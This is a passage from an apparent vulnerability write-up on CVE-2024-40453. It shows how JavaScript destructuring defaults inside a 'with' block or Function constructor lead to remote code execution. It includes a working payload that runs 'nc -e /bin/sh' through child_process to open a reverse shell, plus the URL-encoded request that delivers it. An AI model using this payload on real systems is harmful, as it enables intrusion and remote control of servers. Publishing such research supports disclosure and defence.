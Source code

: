 ```javascript
[a, , b] = array;
[a = aDefault, b] = array;
[a, b, ...rest] = array;
[a, , b, ...rest] = array;
[a, b, ...{ pop, push }] = array;
[a, b, ...[c, d]] = array;

({ a, b } = obj); // parentheses are required
({ a: a1, b: b1 } = obj);
({ a: a1 = aDefault, b = bDefault } = obj);
({ a, b, ...rest } = obj);
({ a: a1, b: b1, ...rest } = obj);
```

The most interesting syntax is this:

```javascript
({ a: a1 = aDefault, b = bDefault } = obj);
```

It takes the value corresponding to the `a1` key in `obj`, and assigns it to `a`. If `a1` is not defined then it
evaluates `aDefault`

With this syntax, we can satisfy the `with` expression since it's now a valid object initializer. It also satisfies the
`Function` constructor since it's simply assigning the value to a different name. So we can use this for RCE!

```javascript
// valid!
with ({ a: b = console.log("x") } || {}) {
    // ...
}

// valid!
new Function("{ a: b = console.log('x') }", "c", "cb", "return 1")
```

Let's test out our payload with a reverse shell:

```
Payload: { a: b = global.process.mainModule.require("child_process").execSync("nc -e /bin/sh localhost 1337") }

http://localhost:3000?useWith=1&varName=%7B%20a:%20b%20=%20global.process.mainModule.require(%22child_process%22).execSync(%22nc%20-e%20/bin/sh%20localhost%201337%22)%20%7D
```

And we have RCE!

![Reverse shell](/images/posts/cve-2024-40453/reverse-shell.png)

## Better payloads
